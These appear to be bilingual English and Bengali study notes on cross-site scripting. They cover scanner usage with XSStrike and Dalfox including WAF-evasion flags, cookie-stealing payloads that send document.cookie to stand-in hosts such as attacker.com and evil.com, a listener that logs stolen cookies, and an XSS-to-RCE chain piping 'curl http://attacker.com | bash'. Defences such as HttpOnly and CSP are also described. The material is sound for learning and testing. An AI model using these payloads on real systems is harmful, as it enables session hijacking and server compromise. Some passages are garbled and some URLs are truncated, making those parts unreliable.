




# XXS

**The steps in a reflected XSS attack.**



**The steps in a stored XSS attack.**



```bash
<script>alert(1)</script>
</option><select><script>alert(1)</script></select>
</option><select></select>
```

# Automation

```bash
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip3 install -r requirements.txt
python3 xsstrike.py -h

```

**Enabling Global Execution (No Python Required)**

To execute `xsstrike` directly from any directory, you must install it using a tool like `pipx` (which isolates the application and automatically creates symlinks in your system’s execution path):

**bash**

```bash
pipx install git+https://github.com
```

Use code with caution.

*(Once installed, you can close and reopen your terminal. The `xsstrike` binary is now accessible system-wide just like native Linux utilities like `nmap` or `curl`.)*

---

**2. Practical Real-Life Examples**



**A) Testing Reflective Search Parameters (GET Request)**

When auditing public-facing query fields (such as product filters, e-commerce search bars, or tracking fields) to see how the application sanitizes URL inputs:

**bash**

```jsx
xsstrike -u"https://example-shop.com"
```

Use code with caution.

**B) Auditing Authentication & Input Fields (POST Request)**

When assessing input handling on backend-processing forms like registration blocks, contact forms, or login fields where data isn't exposed in the URL bar:

**bash**

```bash
xsstrike -u"https://target-portal.com" --data"username=admin&password=password123"
```

Use code with caution.

**C) Deep-Crawling an Entire Single-Page Application (SPA)**

If you want to map out an entire site's endpoints and automatically extract dynamic forms, hidden input fields, and parameters for XSS analysis:

**bash**

```bash
xsstrike -u"https://client-app.com" --crawl -l3
```

Use code with caution.

- `-crawl`: Tells the scanner to parse links iteratively.
- `l 3`: Configures the depth to 3 levels deep into the application architecture.

**D) Testing Modern Routing Architectures (URL Path Injection)**

Many modern web frameworks route parameters directly into the folder structure (e.g., RESTful APIs or routing setups like Node/Express) rather than using a standard query string (`?id=`). Use the `--path` modifier to treat the URL path itself as the fuzzing parameter:

**bash**

```bash
xsstrike -u"https://target-app.com" --path
```

Use code with caution.

**E) Post-Authentication Scanning (Passing Session Tokens)**

Most business logic or administrative endpoints cannot be queried without valid authentication state. You must pass your active browser cookies or authorization headers so the scanner can access the dashboard internal parameters:

**bash**

```bash
xsstrike -u"https://target.com" --headers"Cookie: session=xyz123abc; security=high"
```

Use code with caution.

---

**🛡️ Real-World Evasion Optimization**

Active target environments often employ Web Application Firewalls (WAFs) or intrusion prevention mechanisms that detect high-velocity automated scanners. To test application parameters safely and bypass strict rate-limiting barriers:

**bash**

```bash
xsstrike -u"https://target.com" -d3 -t2 --skip-dom
```

Use code with caution.

- `d 3`: Inserts a structured 3-second delay between every single HTTP request sent.
- `t 2`: Drops the concurrent thread execution profile down to prevent threshold limits.
- `-skip-dom`: Prevents heavy client-side parsing engines from running, maintaining a low-profile network signature.

## Dalfox

# MCP server create → AI agent integration possible



**1. Standard Single URL Parameter Scan**

Scans a single URL with parameters. It automatically detects reflections, attempts WAF evasion, and analyzes the DOM context.

**bash**

```powershell
dalfox url"https://example.com"
```

Use code with caution.

**2. Authenticated Dashboard Scan (With Cookies)**

Essential for hunting high-severity XSS inside administrative portals, profile forms, or user dashboards.

**bash**

```bash
dalfox url"https://example.com" -H"Cookie: session=abc123xyz; security=high"
```

Use code with caution.

**3. Mass Pipeline Scanning (Massive Automation)**

Pipes a list of discovered URLs (e.g., from `waybackurls`, `gau`, or `subdomains`) directly into DalFox for rapid, high-volume testing using concurrency.

**bash**

```bash
cat urls.txt | dalfox pipe --worker50
```

Use code with caution.

**4. Mass Parameter Brute-Forcing & Fuzzing**

Combines a massive parameter wordlist (like `params.txt`) with DalFox's parsing engine to find hidden reflection points on an endpoint.

**bash**

```bash
dalfox url"https://example.com" -p params.txt
```

Use code with caution.

**5. Scanning for Stored XSS with a Blind Payload**

Injects a payload designed to trigger back to your listener (e.g., Interactsh, XSSHunter) when an administrator views the data hours or days later.

**bash**

```bash
dalfox url"https://example.com" -b"https://interact.sh"
```

Use code with caution.

---

**🛡️ Production & Stealth Modifiers**

| **Target Scenario** | **Copyable Command Modifier** | **What it Does** |
| --- | --- | --- |
| **Bypass Strict WAFs** | `--delay 2000 --worker 2` | Throttles speed with a 2-second delay and minimal threads to prevent rate-limiting or blocking. |
| **Custom User-Agent** | `-H "User-Agent: Mozilla/5.0 ..."` | Disguises the tool's signature as a legitimate browser. |
| **Output Results** | `-o results.txt` | Saves all verified vulnerabilities directly to a clean text file. |
| **Deep Parameter Discovery** | `--mining-dict` | Forces DalFox to guess parameters internally if none are provided in the URL. |

**A slow, authenticated, stealthy scan designed to bypass basic WAFs:**

**bash**

```bash
dalfox scan"https://target.com" -C"session=abc123xyz" --waf-evasion --delay1500 --worker5 -o results.json --format json
```

Use code with caution.

### XXSHunter, gf , nuclei

## XSS vs CSRF

In a nutshell, XSS exploits a user’s trust of the website, while CSRF exploits the website’s trust of the user.S o most functionality that the application supports, such as creating user, changing a password, or deleting website content, can be executed without the user ever realizing it via a CS RF a ack. This is why it’s called a request forgery.

XSS uses script in the browser, while CSRF uses any reques that performs an action (GET or POST) to complete a valid action in the application.

XSS and CSRF can even be used together in chained exploits, such as the world famous Samy worm created by S amy Kamkar that wreaked havoc on MyS pace in 2005. I t wasn’t actually a worm in the traditional malware sense, but instead a stored XS S and CS RF a ack that spread so fast that it was dubbed a worm. The a ack carried a payload that would enter “but most of all, Samy is my hero” on a victim’s profile and also make a friend request back to S amy. When other MyS pace users viewed any exploited profile, the payload would execute again. Within 1 day, over 1 million MyS pace users had been exploited. The text inserted into the profile was done via XSS while the friend request was done via CSRF.

```php
[https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)[http://www.social-engineer.org/](http://www.social-engineer.org/)
```

You can use the document.cookie method in a XSS attack to retrieve and display the session identifier of the browser that allows this script to execute.
<script>alert(document.cookie)</script>

the same alert pop-up, but you could instead use JavaScript to open a connection back to a server you control and have the cookie sent there. You could then use that session identifier to masquerade as the victim user and send malicious requests to the application.

**রিফ্লেক্টেড এক্সএসএস (Reflected XSS) অ্যাটাকে কীভাবে ডেটা আদান-প্রদান হয় এবং অন্য ইউজারের ব্রাউজার থেকে কুকি আপনার কাছে আসে, তা নিচে সহজ ধাপে ব্যাখ্যা করা হলো:**

আপনার নিজের ব্রাউজারে ম্যালিশিয়াস লিংক (Payload) পেস্ট করলে অন্য কোনো ইউজার আক্রান্ত হবে না। অন্য ইউজারকে আক্রান্ত করতে হলে **আপনাকে সেই লিংকটি কোনো উপায়ে ওই ইউজারের কাছে পৌঁছাতে হবে এবং ইউজারকে সেখানে ক্লিক করাতে হবে।**

নিচে পুরো প্রক্রিয়াটি ধাপে ধাপে দেওয়া হলো:

---

**🗺️ রিফ্লেক্টেড XSS কীভাবে কাজ করে? (ধাপসমূহ)**

**১. অ্যাটাকার লিংক তৈরি করে (Crafting the Link)**

ধরা যাক, একটি দুর্বল ওয়েবসাইট আছে যার নাম `vulnerable.com`। এই সাইটের সার্চ বক্সে যা লেখা হয়, তা-ই স্ক্রিনে সরাসরি দেখায় (Reflect করে)। অ্যাটাকার একটি বিশেষ লিংক তৈরি করে যার ভেতরে কুকি চুরি করার জাভাস্ক্রিপ্ট কোড (Payload) ঢুকিয়ে দেওয়া হয়।

- **সাধারণ লিংক:** `https://vulnerable.com`
- **অ্যাটাকারের তৈরি লিংক:**
    
    **html**
    
    ```
    https://vulnerable.com<script>fetch('https://attacker.com' + document.cookie)</script>
    ```
    
    Use code with caution.
    

**২. ভিকটিমকে লিংকটি পাঠানো হয় (Social Engineering)**

যেহেতু এটি রিফ্লেক্টেড বা নন-পারসিস্টেন্ট (ডাটাবেজে জমা থাকে না), তাই **ভিকটিমকে নিজে ওই লিংকে ক্লিক করতে হবে।** অ্যাটাকার এই লিংকটি ভিকটিমের কাছে পাঠায়:

- 📧 ইমেইল ফিশিংয়ের মাধ্যমে।
- 💬 ফেসবুক, ডিসকর্ড বা টেলিগ্রাম মেসেজের মাধ্যমে।

**৩. ইউজার লিংকে ক্লিক করে (The Execution)**

ইউজার যখন মনে করে এটি একটি আসল ওয়েবসাইট এবং লিংকে ক্লিক করে, তখন তার ব্রাউজার থেকে `vulnerable.com` সার্ভারে একটি রিকোয়েস্ট যায়।

**৪. সার্ভার কোডটি রিফ্লেক্ট করে (Reflection)**

ওয়েবসাইটটির সার্ভার ইনপুট ফিল্টার না করেই ওই ক্ষতিকর কোডসহ পেজটি রেসপন্স হিসেবে **সরাসরি ওই ইউজারের ব্রাউজারে ফেরত পাঠায়।**

**৫. ইউজারের ব্রাউজারে প্রম্পট বা অ্যালার্ট আসে**

যেহেতু কোডটি সরাসরি `vulnerable.com` থেকে এসেছে, তাই ইউজারের ব্রাউজার এটিকে নিরাপদ মনে করে রান বা এক্সিকিউট করে। তখনই ইউজারের ব্রাউজারে প্রম্পট (Alert Box) ভেসে ওঠে।

**৬. অ্যাটাকার কুকি পেয়ে যায় (Cookie Theft)**

ব্যাকগ্রাউন্ডে ওই জাভাস্ক্রিপ্ট কোডটি ইউজারের ব্রাউজার থেকে `document.cookie` (সেশন আইডি) রিড করে এবং অ্যাটাকারের সার্ভারে (`attacker.com`) পাঠিয়ে দেয়। অ্যাটাকার তার সার্ভারের লগ ফাইল চেক করলেই ওই ইউজারের কুকি দেখতে পায় এবং তা দিয়ে ইউজারের অ্যাকাউন্ট হাইজ্যাক করতে পারে।

---

**🛡️ এই কুকি চুরি কীভাবে রোধ করা যায়?**

আপনি যদি ব্যাকএন্ড ডেভেলপার হন, তবে এই ধরনের আক্রমণ ঠেকাতে দুটি প্রধান সিকিউরিটি মেজার ব্যবহার করতে পারেন:

1. **HttpOnly Flag (সবচেয়ে গুরুত্বপূর্ণ):** সেশন কুকি সেট করার সময় সর্বদা `HttpOnly` ফ্ল্যাগ ব্যবহার করুন। এটি অন থাকলে ব্রাউজারের জাভাস্ক্রিপ্ট (`document.cookie`) কোনোভাবেই কুকি অ্যাক্সেস করতে পারবে না। ফলে এক্সএসএস অ্যাটাক হলেও কুকি চুরি করা অসম্ভব।
    
    **http**
    
    ```
    Set-Cookie: session_id=xyz123; Secure; HttpOnly; SameSite=Strict
    ```
    
    Use code with caution.
    
2. **Output Encoding:** ইউজার ইউআরএল বা ইনপুট বক্সে যা-ই দিক না কেন, তা স্ক্রিনে দেখানোর আগে এনকোড (যেমন: `<` কে `&lt;` এবং `>` কে `&gt;`) করে নিতে হবে। এতে ব্রাউজার সেটিকে কোড হিসেবে রান না করে সাধারণ টেক্সট হিসেবে দেখাবে।

**বাস্তব লাইভে বা কোনো বৈধ পেনেট্রেশন টেস্টিং (Penetration Testing) বা সিকিউরিটি অডিটের সময়** অ্যাটাকার সার্ভার কনফিগার করার জন্য এবং চুরি হওয়া কুকি (Exfiltrated Cookies) রিসিভ করার জন্য সাধারণত একটি লাইভ লিসেনিং এন্ডপয়েন্ট বা লগার ব্যবহার করা হয়।

নিচে বিস্তারিত আলোচনা করা হলো যে কীভাবে এই রিসিভার কনফিগার করা হয় এবং কীভাবে কুকিগুলো খুঁজে পাওয়া যায়, পাশাপাশি কীভাবে এটি প্রতিরোধ করা যায়।

---

**১. রিয়েল লাইফে রিসিভার বা লগার কনফিগার করার পদ্ধতি**

একটি এক্সএসএস (XSS) পেলোড যখন ভিকটিমের ব্রাউজারে রান করে, তখন জাভাস্ক্রিপ্ট কোডটি একটি নির্দিষ্ট সার্ভারে ডেটা পাঠায়। বৈধ সিকিউরিটি রিসার্চাররা এই ডেটা রিসিভ করার জন্য প্রধানত ৩টি পদ্ধতি ব্যবহার করেন:

**ক) বার্থ স্যুট কোলাবোরেটর (Burp Collaborator) — সবচেয়ে সহজ ও প্রফেশনাল পদ্ধতি**

পেনেট্রেশন টেস্টারদের জন্য [**Burp Suite Professional**](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)-এর মধ্যে একটি বিল্ট-ইন টুল থাকে যাকে বলা হয় **Burp Collaborator**। [[1](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)]

1. বার্থ স্যুট ওপেন করে **Collaborator** ট্যাবে যেতে হয় এবং সেখানে একটি ইউনিক সাবডোমেন এড্রেস পাওয়া যায় (যেমন: `://oastify.com`)।
2. পেলোডে এই এড্রেসটি ব্যবহার করা হয়।
3. যখনই ভিকটিমের ব্রাউজারে কোডটি রান করে, বার্থ স্যুটের ওই ড্যাশবোর্ডে স্বয়ংক্রিয়ভাবে নোটিফিকেশন চলে আসে এবং সেখানেই কুকি দেখা যায়। [[1](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)]

**খ) কাস্টম এনজিনেক্স বা নোড ডট জেএস সার্ভার (Custom Web Server)**

অনেক সময় রিসার্চাররা নিজস্ব ক্লাউড ভিপিএস (যেমন: AWS, DigitalOcean) বা ডোমেনে একটি সাধারণ নোড (Node.js) বা পাইথন সার্ভার চালু করেন।

- একটি উদাহরণ হিসেবে ব্যাকএন্ডে নিচের মতো কোড রান করানো থাকে যা আগত রিকোয়েস্টের কুয়েরি প্যারামিটার লক বা প্রিন্ট করে: [[1](https://egghead.io/lessons/express-make-an-xss-payload-to-read-a-cookie-from-a-vulnerable-website)]
    
    **javascript**
    
    ```
    constexpress = require('express');constapp = express();
    
    app.get('/hijack', (req,res) => {
        console.log("Stolen Cookie:", req.query.cookie);// এখানে কুকি প্রিন্ট হয়
        res.send('OK');
    });
    
    app.listen(80);
    ```
    
    Use code with caution.
    

**গ) পাবলিক রিকোয়েস্ট বিন (RequestBin / Webhook.site)**

ল্যাব এনভায়রনমেন্ট বা কুইক টেস্টিংয়ের জন্য কোনো সার্ভার সেটাপ না করে সরাসরি `webhook.site` এর মতো প্ল্যাটফর্ম ব্যবহার করা হয়। এটি একটি ইউনিক ইউআরএল দেয়, যেখানে কোনো রিকোয়েস্ট আসলে তা ব্রাউজার স্ক্রিনেই রিয়েল-টাইমে লাইভ দেখা যায়।

---

**২. চুরি হওয়া কুকিটি কোথায় থাকে বা পাওয়া যায়?**

জাভাস্ক্রিপ্ট যখন কুকি পাঠায়, তখন সেটি রিসিভার সার্ভারের **HTTP Request Logs** অথবা **URL Query Parameters** এর মধ্যে জমা হয়। [[1](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies), [2](https://egghead.io/lessons/express-make-an-xss-payload-to-read-a-cookie-from-a-vulnerable-website)]

- **যদি পেলোডটি এমন হয় (GET Request):**তাহলে অ্যাটাকার তার সার্ভারের **Access Log** ফাইলটি চেক করলে দেখতে পাবেন:`GET /hijack?cookie=session_id=xyz123abc... HTTP/1.1`এখানে ইউআরএল-এর শেষ অংশেই কুকিটি স্পষ্টাক্ষরে দেখা যায়। [[1](https://egghead.io/lessons/express-make-an-xss-payload-to-read-a-cookie-from-a-vulnerable-website), [2](https://bblabs.es/en/academy/basico/cookies-flags-secure-httponly-samesite)]
    
    **html**
    
    ```
    <script>new Image().src="https://evil.com" + document.cookie;</script>
    ```
    
    Use code with caution.
    
- **যদি পেলোডটি POST রিকোয়েস্টের মাধ্যমে পাঠানো হয়:**তাহলে রিসিভার সার্ভারের **HTTP Request Body** বা পেলোড ডাটার ভেতর কুকিটি টেক্সট আকারে জমা থাকে। [[1](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)]

---

**🛡️ এই কুকি চুরি এবং XSS সম্পূর্ণরূপে প্রতিরোধের উপায়**

একটি অ্যাপ্লিকেশন ডেভেলপ করার সময় কুকি চুরি ঠেকাতে নিচের সিকিউরিটি মেকানিজমগুলো বাধ্যতামূলকভাবে ইমপ্লিমেন্ট করা উচিত:

1. **HttpOnly Flag সেট করা (সর্বোত্তম ডিফেন্স):**কুকি সেট করার সময় যদি ব্যাকএন্ড থেকে `HttpOnly` ফ্ল্যাগ অন করে দেওয়া হয়, তবে ব্রাউজারের জাভাস্ক্রিপ্ট (`document.cookie`) কোনোভাবেই সেই কুকিটি রিড করতে পারবে না। ফলে অ্যাপ্লিকেশনে XSS ভালনারেবিলিটি থাকলেও লগার সার্ভারে কোনো কুকি যাবে না (ফাঁকা বা `undefined` যাবে)। [[1](https://barrion.io/blog/cookie-security-best-practices), [2](https://bblabs.es/en/academy/basico/cookies-flags-secure-httponly-samesite), [3](https://www.yeswehack.com/learn-bug-bounty/xss-attacks-exploitation-ultimate-guide)]
    
    **php**
    
    ```
    // PHP-তে নিরাপদ কুকি সেট করার উদাহরণ
    setcookie("session_id", "xyz123", [
        'expires' => time() + 3600,
        'path' => '/',
        'domain' => 'vulnerable.com',
        'secure' => true,      // শুধুমাত্র HTTPS-এ কাজ করবে
        'httponly' => true,    // জাভাস্ক্রিপ্ট অ্যাক্সেস ব্লক করবে
        'samesite' => 'Lax'    // CSRF প্রটেকশন
    ]);
    ```
    
    Use code with caution.
    
2. **কনটেন্ট সিকিউরিটি পলিসি (Content Security Policy - CSP):**ওয়েবসাইটে একটি শক্তপোক্ত CSP হেডার ব্যবহার করলে ব্রাউজারকে নির্দেশ দেওয়া যায় যে সে নিজস্ব ডোমেন ছাড়া অন্য কোনো অপরিচিত বা থার্ড-পার্টি ডোমেনে (যেমন: `evil.com` বা `webhook.site`) কোনো ডেটা বা ইমেজ রিকোয়েস্ট পাঠাতে পারবে না। এতে এক্সএসএস স্ক্রিপ্ট রান হলেও ডেটা বাইরে পাচার হতে পারে না। [[1](https://web.dev/articles/strict-csp), [2](https://www.youtube.com/watch?v=B0Rz_qiQAWo&t=311), [3](https://www.sentinelone.com/cybersecurity-101/threat-intelligence/how-to-prevent-cross-site-scripting-xss-attacks/)]

## **XSS (Cross-Site Scripting) to RCE (Remote Code Execution) chaining**

This is an advanced attack methodology where an attacker leverages a client-side vulnerability (XSS) to eventually execute arbitrary commands on the backend server (RCE).

By itself, XSS only executes code inside the victim's browser. However, if the victim happens to be an **Administrator** or a user with access to an internal administrative panel that contains an RCE-vulnerable feature, the XSS payload can act as a proxy to trigger that server-side flaw.

---

**🗺️ The Chain of Events (How it Works)**

```
[Attacker]
   │
   ▼ (Injects XSS Payload)
[Vulnerable Frontend Website]
   │
   ▼ (Admin views the page / triggers XSS)
[Admin's Browser]
   │
   ▼ (XSS forces browser to send silent background request to Admin Panel)
[Admin Panel / Backend Server] ──► [Executes Operating System Command (RCE)]
```

**Step 1: The Attacker Identifies the Targets**

1. **Frontend Flaw:** A low-privileged or public-facing page has an XSS vulnerability (e.g., a comment section or profile name field).
2. **Backend Flaw:** The internal admin panel (`/admin/system/updates` or `/admin/tools/ping`) has a command injection or file upload vulnerability that leads to RCE. *Crucial limitation: The attacker cannot reach this panel directly because it requires admin authentication or is hosted on an internal network.*

**Step 2: Crafting the XSS Payload**

The attacker writes a JavaScript payload designed to impersonate the administrator. Because the script runs *inside* the admin's logged-in browser session, it inherits all of the admin's privileges and session cookies.

**Step 3: Triggering the Admin Action**

When the administrator logs in and views the XSS-infected frontend page, the malicious JavaScript executes silently in the background (using `fetch()` or `XMLHttpRequest`). The admin sees nothing unusual.

**Step 4: Executing the RCE**

The background request sent by the XSS payload targets the vulnerable admin feature. For example, it might submit a form to the server's ping tool, appending a malicious system command:

**javascript**

```
// XSS payload running inside the Admin's browser
fetch('https://target.local', {method:'POST',headers: {'Content-Type':'application/x-www-form-urlencoded' },body:'ip=127.0.0.1; curl http://attacker.com | bash'// Command Injection
});
```

Use code with caution.

The server receives this authenticated request from the trusted admin session, executes the command injection payload, and grants the attacker RCE.

---

**🔍 Real-World Scenarios for XSS to RCE Chaining**

**1. Router / IoT Device Exploitation**

Many home routers have public-facing XSS vulnerabilities but hide their dangerous settings (like firmware upgrades or diagnostic tools) behind an admin login page. An attacker can host a malicious website. When a user visits that site, an XSS/CSRF loop sends requests to `http://192.168.1` to flash malicious firmware onto the router.

**2. CMS Plugins (WordPress, Joomla, etc.)**

An attacker leaves a comment containing XSS on a WordPress blog. When the site administrator views the comments section in the dashboard, the XSS payload runs. The payload automatically navigates to the WordPress Theme Editor, injects a PHP reverse shell into `header.php`, and saves the file—giving the attacker complete control over the web server.

**3. Electron and Desktop Apps**

Desktop applications built using web technologies (like Discord, VS Code, or Slack) use **Electron**. If an Electron application has an unconfigured or weak `nodeIntegration` policy, an XSS vulnerability inside a chat window or document can directly access Node.js runtime APIs on the host computer.

**javascript**

```
// If nodeIntegration is enabled, XSS instantly becomes Local RCE
require('child_process').exec('calc.exe');
```

Use code with caution.

---

**🛡️ Defensive Mitigations**

To break this chain, security architecture must implement defenses at both the frontend and backend layers:

1. **Contextual Output Encoding & CSP:** Prevent the initial XSS vulnerability by properly sanitizing all user inputs and restricting script execution via a strict Content Security Policy (CSP).
2. **Re-Authentication for Sensitive Operations:** Critical functionalities (like running diagnostics, uploading files, or changing system settings) must require the user to re-enter their password or a 2FA code before processing the request. This completely neutralizes automated XSS/CSRF background requests.
3. **Strict Anti-CSRF Tokens:** Ensure that administrative endpoints validate unique, unpredictable cryptographic tokens for every state-changing request.
4. **Principle of Least Privilege (System Level):** Web servers should run under heavily restricted system accounts (e.g., `www-data` with no sudo permissions). Even if an attacker successfully chains XSS to achieve RCE, their ability to navigate or damage the underlying server is tightly contained.

**XSS (Cross-Site Scripting) থেকে RCE (Remote Code Execution) চেইনিং** হলো সাইবার সিকিউরিটির একটি অত্যন্ত অ্যাডভান্সড মেথডোলজি। এর মানে হলো, ক্লায়েন্ট-সাইডের একটি দুর্বলতা (XSS) ব্যবহার করে হ্যাকাররা ব্যাকএন্ড সার্ভারে ওএস কমান্ড এক্সিকিউট (RCE) করে পুরো সার্ভারের নিয়ন্ত্রণ নিয়ে নেয়।

সাধারণত XSS শুধুমাত্র ইউজারের ব্রাউজারের ভেতর জাভাস্ক্রিপ্ট রান করতে পারে। কিন্তু যদি সেই ইউজারটি ওই ওয়েবসাইটের একজন **অ্যাডমিনিস্ট্রেটর (Admin)** হন, তবে তার ব্রাউজারে রান হওয়া XSS পেলোডটি ব্যাকএন্ডের কোনো দুর্বল ফিচারকে ট্রিগার করে RCE ঘটাতে পারে।

নিচে পুরো প্রক্রিয়াটি ধাপে ধাপে এবং সহজ ভাষায় ব্যাখ্যা করা হলো:

---

**🗺️ চেইনিং কীভাবে কাজ করে? (The Attack Flow)**

```
[অ্যাটাকার]
   │
   ▼ (পাবলিক পেজে XSS ইনজেক্ট করে)
[দুর্বল ওয়েবসাইট (Frontend)]
   │
   ▼ (অ্যাডমিন যখন ওই পেজটি ভিজিট করেন)
[অ্যাডমিনের ব্রাউজার]
   │
   ▼ (XSS স্ক্রিপ্ট অ্যাডমিনের অজান্তেই ব্যাকগ্রাউন্ডে রিকোয়েস্ট পাঠায়)
[অ্যাডমিন প্যানেল / ব্যাকএন্ড সার্ভার] ──► [সার্ভারে ওএস কমান্ড রান হয় (RCE)]
```

**ধাপ ১: টার্গেট খুঁজে বের করা**

1. **ফ্রন্টএন্ডের দুর্বলতা:** ওয়েবসাইটের একটি সাধারণ পেজে (যেমন: কমেন্ট সেকশন বা প্রোফাইল নেম) একটি XSS ভালনারেবিলিটি আছে।
2. **ব্যাকএন্ডের দুর্বলতা:** ইন্টারনাল অ্যাডমিন প্যানেলের একটি ফিচারে (যেমন: Ping Tool বা Firmware Update) ওএস কমান্ড ইনজেকশন বা ক্ষতিকর ফাইল আপলোডের দুর্বলতা আছে।*(সীমাবদ্ধতা: অ্যাটাকার সরাসরি এই অ্যাডমিন প্যানেলে ঢুকতে পারে না, কারণ সেখানে ঢুকতে ইউজারনেম-পাসওয়ার্ড লাগে বা সেটি ইন্টারনাল নেটওয়ার্কে থাকে।)*

**ধাপ ২: ম্যালিশিয়াস XSS পেলোড তৈরি করা**

অ্যাটাকার এমন একটি জাভাস্ক্রিপ্ট কোড লেখে যা অ্যাডমিনকে ইমপারসোনেট (Impersonate) বা নকল করতে পারে। যেহেতু কোডটি অ্যাডমিনের নিজের ব্রাউজারে রান হবে, তাই এটি অ্যাডমিনের সেশন কুকি ও সমস্ত প্রিভিলেজ (Privileges) স্বয়ংক্রিয়ভাবে পেয়ে যাবে।

**ধাপ ৩: অ্যাডমিনের মাধ্যমে ট্রিগার করা**

অ্যাডমিন যখন ওয়েবসাইটে লগইন করেন এবং ওই XSS আক্রান্ত ফ্রন্টএন্ড পেজটি (যেমন: কমেন্ট মডারেশন পেজ) দেখতে যান, তখন ব্যাকগ্রাউন্ডে জাভাস্ক্রিপ্টটি রান হয়ে যায়। অ্যাডমিন স্ক্রিনে কোনো পরিবর্তন দেখতে পান না।

**ধাপ ৪: RCE এক্সিকিউশন**

অ্যাডমিনের ব্রাউজারে থাকা XSS কোডটি স্বয়ংক্রিয়ভাবে ব্যাকগ্রাউন্ডে একটি `fetch()` বা `XMLHttpRequest` রিকোয়েস্ট পাঠায় অ্যাডমিন প্যানেলের সেই দুর্বল ফিচারে। উদাহরণস্বরূপ, এটি অ্যাডমিন প্যানেলের পিং টুলের ফর্মে একটি ওএস কমান্ড জুড়ে দেয়:

**javascript**

```
// এই XSS কোডটি অ্যাডমিনের ব্রাউজারের ভেতরে সাইলেন্টলি রান হচ্ছে
fetch('https://target.local', {method:'POST',headers: {'Content-Type':'application/x-www-form-urlencoded' },body:'ip=127.0.0.1; curl http://attacker.com | bash'// কমান্ড ইনজেকশন
});
```

Use code with caution.

সার্ভার দেখে যে রিকোয়েস্টটি একজন ভ্যালিড ও লগইন থাকা অ্যাডমিনের কাছ থেকেই এসেছে। তাই সার্ভার কোনো সন্দেহ না করে কমান্ডটি রান করে দেয় এবং অ্যাটাকার সার্ভারের ভেতর **RCE** পেয়ে যান।

---

**🔍 বাস্তব জীবনের কিছু প্রচলিত উদাহরণ (Real-World Scenarios)**

**১. রাউটার বা আইওটি (IoT) ডিভাইস হ্যাকিং**

অনেক হোম রাউটারের লগইন পেজে বা লোকাল পেজে XSS থাকে। অ্যাটাকার কোনো ম্যালিশিয়াস সাইটের মাধ্যমে অ্যাডমিনের ব্রাউজারে XSS/CSRF রান করিয়ে রাউটারের ফার্মওয়্যার আপডেট এন্ডপয়েন্টে (`http://192.168.1`) রিকোয়েস্ট পাঠিয়ে রাউটারে কাস্টম ক্ষতিকর ফার্মওয়্যার ফ্ল্যাশ করে দিতে পারে।

**২. সিএমএস প্লাগইন (যেমন: WordPress Plugins)**

কোনো ব্লগ সাইটের কমেন্ট বক্সে অ্যাটাকার XSS রেখে দিল। অ্যাডমিন যখন ওয়ার্ডপ্রেস ড্যাশবোর্ড থেকে কমেন্টটি অ্যাপ্রুভ করতে যান, তখন XSS পেলোডটি রান হয়। পেলোডটি ব্যাকগ্রাউন্ডে ওয়ার্ডপ্রেসের **Theme Editor**-এ গিয়ে `header.php` ফাইলের ভেতর একটি PHP রিভার্স শেল কোড ঢুকিয়ে সেভ করে দেয়। এর ফলে অ্যাটাকার পুরো ওয়েব সার্ভারের এক্সেস পেয়ে যায়।

**৩. ইলেকট্রন অ্যাপস (Electron/Desktop Apps)**

ডিসকর্ড, ভিএস কোড বা স্ল্যাকের মতো ডেস্কটপ অ্যাপগুলো **Electron Framework** (ওয়েব টেকনোলজি) দিয়ে তৈরি। যদি কোনো ইলেকট্রন অ্যাপে `nodeIntegration` পলিসি সঠিকভাবে কনফিগার করা না থাকে, তবে চ্যাট উইন্ডোর ভেতরের একটি সাধারণ XSS সরাসরি কম্পিউটারের Node.js রানটাইমকে এক্সেস করতে পারে, যা মুহূর্তেই লোকাল RCE-তে রূপান্তর হয়:

**javascript**

```
// nodeIntegration অন থাকলে XSS সরাসরি কম্পিউটারে কমান্ড রান করতে পারে
require('child_process').exec('calc.exe');
```

Use code with caution.

---

**🛡️ এই চেইনিং কীভাবে প্রতিরোধ করা যায়? (Mitigation)**

এই বিপজ্জনক চেইনটি ভাঙতে হলে ফ্রন্টএন্ড এবং ব্যাকএন্ড—উভয় স্তরেই নিরাপত্তা নিশ্চিত করতে হবে:

1. **কনটেক্সট-অ্যাওয়ার আউটপুট এনকোডিং এবং CSP:** ফ্রন্টএন্ডে যেন কোনোভাবেই XSS না হতে পারে, সেজন্য সমস্ত ইউজার ইনপুট স্ক্রিনে দেখানোর আগে এনকোড করতে হবে এবং একটি শক্তিশালী Content Security Policy (CSP) ব্যবহার করতে হবে।
